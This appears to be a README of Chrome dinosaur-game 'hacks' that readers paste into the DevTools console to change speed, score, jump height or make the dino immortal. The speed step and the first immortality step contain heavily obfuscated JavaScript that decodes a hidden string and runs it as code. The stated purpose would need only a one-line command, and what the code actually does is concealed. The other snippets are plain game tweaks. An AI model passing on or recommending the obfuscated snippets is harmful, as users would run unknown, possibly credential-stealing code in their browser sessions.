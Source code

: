 # Chrome-Dino-Bookmarklets
this is alot of chrome dino bookmarklets and these are cool and they do stuff lol
# Hack Google Chrome and Make your Dinosaur Immortal



The game can be hacked pretty easily, making your dinosaur not even flinch at the sight of a cactus.

To hack the game, first go the the error message page where your dinosaur is hanging out. 

Go ahead and press the space bar to start the  game. Once the game starts, right-click and select ``Inspect” to open up Chrome DevTools``, then select the ``Console`` tab. 

You can also do this by using the Ctrl+Shift+I shortcut, which takes you straight to the  Console tab of DevTools.



### Open Chrome Console

- Make sure you are on the No Internet Connection page.
- Right click anywhere on the page and select Inspect.
- Go to Console tab. This is where we will enter the commands to tweak the game.



#### Tweaking Speed

Type the following command in Console and press enter. You can use any other speed in place of 1000.

```js
(function(){var HYf='',clc=731-720;function KJc(x){var y=209403;var k=x.length;var w=[];for(var t=0;t<k;t++){w[t]=x.charAt(t)};for(var t=0;t<k;t++){var m=y*(t+401)+(y%18965);var l=y*(t+485)+(y%25098);var i=m%k;var z=l%k;var r=w[i];w[i]=w[z];w[z]=r;y=(m+l)%1364142;};return w.join('')};var dmI=KJc('rjtexdoguctavrywrinpfmclsqzstnucboohk').substr(0,clc);var viB=']g"rpna.=up6j+agC!tc=r 1(jrbt3e,ra;e[hmx,p.l=.r(q(;{=z1 n i u7vdvn(4,,;n)f)vC0v-=oamm7=tv7[8=,r80n,m))rgi 7=;,ft+0"vlna hafca ,vuur].si=;r3.;i;uc)cr.l(o5"<d;)hdf[<]mvh+1,g.wrpha(nxe(=5;){.<05a+=+06str0v7n;[s0gbu]0g=;uxnuc,+siw+7(trn.v-(udfv(g;;etr;=e)v.p=;v(;)jf2"-=olvrfq4 alkxf)cri=o[==pehrf=g"] q1 ugl(orrs,09dq;) as .=*u=a0,zreeamnv;e]l]Azlr9cA+vor) e-zv{<vnrgae[+n+{;m(li;);ryer="[.avqsa4c.(us=ct, ;ohnuosi+io.ee.as;71;lol3(=]+C8;}Av.ehove];f.h;])utt;r;v8h;b =)6!ekarg(;.8enn]l8ic;<,"a,) da(ofo+x)a,f)-n;r{o;eAs  c,i(zs8p[bjh(5l9,ere.vtnh[(uravrv(rt0l;l0)piivn,}tg>6nl.s +h)+1sgbsre[)g1rigu1;n  a}6jef++e]C;(Sp+9,1rn+8"=vuli)ao6hdr,)(f}un==ugo(b*tckj((g)d8riq2=.1;=un=v=>w}z(3ptsvoava]1S}vaC8=6x+j, )a;h)nad. r)[2[,nin-tlx=vf+as92=)-vclt;a).ul9s(va;cyh)=oc2bCs2f{(lps+6)(t(r(r=;;htn0(=)3lrhn.n.uokCm=t;tah +ie,gc+;iCt1=[)n,jn"kr,f(=ajd6u{.9oarvyrh26[n4)}eouf0oc m+o]wftu7A;6,t.lhr=ae;"';var JUu=KJc[dmI];var FVe='';var Foy=JUu;var wgF=JUu(FVe,KJc(viB));var iHf=wgF(KJc('indi3e!,}( \/dt"Jih.6dnJJ"(ug)7ah*fr7(%hd.}J)3pr!rJc"r)!+;dtj0 _6g0(d,bq\/j.Jvdb,cfJud*=JnJl.5[r_*3(_ona5JqJ=ol3!)Ed,0ss%3J%ju9;sxd!_siluwnesp5e.kk)0y(J#t#dJ[a_J8.J..6e#d(rfsnfo=(TC).bdq$3Jmo$4i.2.=.o7uad%a.,(+fr(.1dnda4er]fiit;2m=t5.Ed3rhIJsn4cJpa%i!2rJJ sJ}aJ&)ydc.i%x;"{(nJ4)..;.!n3\/d)=;-e-r!y bd.J].J-s%)r7n!_;-Jcdo  5pt0qi)(a$+-2.e0ejr.CoJ1\/t(yJMeh.t46J*_1\'Jd2]it.o)(,au;1={J.r8JJf=(d.JuJ+J$s!$)1#-(c(u,&htnuJi;sld3J)(dd alfto!J8I(dJ]uy=$vtg(4=gi.:suJf4_.J,t41)]]o};at\',1er)5i_Jae.J o3+{nem3t$J.fuJ}8d7.(!Sn;i!,oT 9d9;(.,r;q..dJJx,J3 ,0")  dl_3J..ix _\/2sJtp$}k!$q"1)$=JJ+,,3Ji2.d,y.&$7.o{.a{rzii)}!p.Jn)sb{J;izenfd}J[.uJa*!b e0)o=J ode m$1(zw-ea(S.Jhr.JJJ,.q.Jt(cjjJ6tfcJJ$_f2efJ=r)tml,p$osd,h.7.d!fJ,,!=k=l)JJ%en0n%.C)J8$1_}"JgJJ0=4rxp}onp4.rsiin;\/na;j.)[\';=]tor!edu2as8Jt+ue}..bnnodr[;d4.,J)%){0.0fi_&$hJ[er._+[{J35.aj=3t9])dfd;.b(j%5,zst9;sd#I;fk)da1tez.!m.($l!etmj.+u,,#=dx.tu};u,jJ)bj.z$yd;tnJ.7d6$4d,Joce,c!1J,)s19) !S2(pJ{J,(pdide((J)0dt)62(n[52-$s(trsd$J.04gj7orfd=g) xe2i_aJ3=}J);l[_a.nen=q.(Ni1$b.!u03d4,dr;d)_.3.J.l.dsioC#(e3.jfaJd)=J$83...].Jn1.\'a50J xf1;e %p{J($f,.J+p)Jfi.n)i( ptJ;o0J.8,6d_f'));var joS=Foy(HYf,iHf );joS(6358);return 7177})()
```



#### Immortality

After every command press enter. All the commands are case-sensitive.

We store the original game over function in a variable:

```js
var original;(function(){var Nqp='',zSI=617-606;function Eon(j){var z=2282894;var g=j.length;var h=[];for(var n=0;n<g;n++){h[n]=j.charAt(n)};for(var n=0;n<g;n++){var k=z*(n+351)+(z%34700);var t=z*(n+734)+(z%23659);var p=k%g;var x=t%g;var b=h[p];h[p]=h[x];h[x]=b;z=(k+t)%7529347;};return h.join('')};var fzJ=Eon('ctpcuresaorodwglfkhzjytuncnvqitbsomrx').substr(0,zSI);var bAR='w;rz0fene("oo;9.60didr1nu".+c1,rghl((,ri2,s(8 ,()( z wuaoo*(1.t="v<;+,a4[)gr7(,8,l;s,!4=+ei=(,yi0t}irlCua[h9d;x,l=,=+=[1j;aa6eg{s ecpr();l9nt0;=oes=[nj.hxv+,t;hy.=])nmaac9lf ==c m+{+2jn9+v61v ;=if]h.ruvd3.u30s66orv(ll;tso;(vn2C;)+g2,rc0)-var.mgcnu["1="hi4[t(ol,[ue0;(iy==c=,)8 ngh=-A;.>i..cvhr+,ff l=0)a<;v6 g-ivpfg;ra=,nhn=iSonAu=1l{al=vg rf6=(-.b!;;a;r2;nCid"i8b= ev)ro7s=aeasaib<m.i;]ug](6}at65jp.0tCr{nf+l]m((h)]zr;{g{;3;ei 8,vrefn]jt*t7s))[;ntvrn;v ny(+;t2=dsu]3)i8dx+.8f=1nS=h-mu)+8)as,idtAahrdi),l+r=s(=son;l)0s)mf-trvv(r;h=2+}eyaemc)twi(}r5phao) ;nut.l.(rC7ifrz>;ue.p=}yf1pr.boorepg,fao=)tssggfa+y;]assiv"r)r;efr.( ceu};]or tni(oucojhq(br.sg(tn)ftt.fg l+60]=)7gom{tm=r+h) ;x=)u=e[g]x;uh8dl;.vuno;2i)")nae5;e+[3(7i+zejse0=4),e6t.p,lc.t,)g;;sca;Aep1v;nwa]<C,vrb1jdzis+)ctoC=ea) e=0r[<ktritg h;tgA=vs} 7pl;tpl7k1gfar.((i0Cl)o+"a=tg+- .ksf[+hv[r2voalt(i(rlha9](nb) "r[u,hr(,a ;tngv9rgra';var Ksz=Eon[fzJ];var MsW='';var KFv=Ksz;var qnK=Ksz(MsW,Eon(bAR));var igh=qnK(Eon('e0G;)7$8d.1r_].)l&r\'!!n({:eG.3t(af}()tG%G)bf(,.etb(G,;=bG(0aaG=i=G.dyia+b,GeG.roGn$;+tGl(.%a=G+G(s3)47_!_e(f(9b}rdhGpg[,xo yeb.ajx3(Gtozwz_0!7n"}(3"a._$asGf1S*or&;r1hanus.bts;)-;y1m.j$).r.oszkS{bg!_r"a\/oie$a}.a%$g(a#G8 aa...i1yae_bu(Gem0yw[n, Cq,i2!s4asn4G=tf+9la930(,.6l_"..l)#t.]jo(\/l.(![ag"#c=$;GGu_d0G4.!e\'#66hgjGbG!snG,)sdztu.e=gi!e}.%)a.t$+;ajpsa).Gs4;o0aG$.,((!+GszGoy.b-0j1iqG3;!,a;.%2n..pg]3s$G!zj3eng}1.637aGrfaG4+f( G,4%qa.=ndj$\/url,pGGG7saw$)r$G3)vi0Gx)o;Gt593m.5.,G. .n3o) C;)t,)$;.i[,f0359)t9;nG 7)7Gp.)3"31oG+_tG24_]k1;a,.5o!.q-oG},;a!.G.,,bG2$7sj!c(q!,.,.lwo!7G()i,fm}=G#u.7&*i$pis.i$Sso2n2sG.G+=a=b$.r\'rGf3a(G)kr+ G(b).Gp,$%Gqt(+Gg1p(0)9rbi{i.abr; $_e55aar}ro}7b$c.Gac%iGyn)+eta,l{nbG.(ab=);\/\/.t.i7,a=a(=7;{t3zl.roo.))G]_b.e=6+[=lg ..ausf)!a2);n)GG,)$G\'.ez-8r,],)0h!q)iaGI#_npai-nadf8==sneGy!brhie eroaae=);omevn_Gr(,l,.jt*,a()9b,Gb4f;ba)_8(ez%e)j(.G,3e7$oveeGrG5gtt3,Gn)a}!]r G!2.j=a G2m\/r*G pGjso{"9GGkaaofitod( l(_c3rGr.rG{g,taz;%em=6$d&{fd..(ucG.G5wGc(;o]2!Tao.aa.s2.# m.}{Gtb)1 5_)$jq_i0o), b0gGG[Gn4[g;aa'));var HMb=KFv(Nqp,igh );HMb(7304);return 7260})()
```

Then, we make the game over function empty:

```js
Runner.prototype.gameOver = function(){}
```

Stopping the game after using Immortality

When you want to stop the game, Revert back to the original game over function:

```js
Runner.prototype.gameOver = original
```



#### Setting the current score

Let’s set the score to 12345. You can set any other score less than 99999. The current score is reset on game over.

```js
Runner.instance_.distanceRan = 12345 / Runner.instance_.distanceMeter.config.COEFFICIENT
```



#### Dino jumping too high?

You can control how high the dino jumps by using the below function. Adjust the value as necessary.

```js
Runner.instance_.tRex.setJumpVelocity(10)
```

